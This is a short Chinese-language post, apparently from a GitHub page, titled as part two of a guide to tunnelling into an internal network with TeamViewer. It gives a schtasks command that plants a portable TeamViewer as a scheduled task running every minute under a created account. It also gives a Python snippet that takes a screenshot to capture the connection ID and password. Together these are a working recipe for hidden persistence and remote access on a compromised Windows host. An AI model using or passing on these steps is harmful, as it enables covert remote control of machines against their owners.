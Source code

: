 # Teamviewer内网穿透（二）

上传一个单文件版本的teamviewer

再通过下面指令运行起来

```
schtasks /create /sc minute /mo 1 /tn “cat” /tr TV的路径  /ru 创建的用户名 /rp 创建的密码

```

使用PIL截图获取连接ID密码：

```
from PIL import ImageGrab
im = ImageGrab.grab()
im.save('screenshot.png')

```

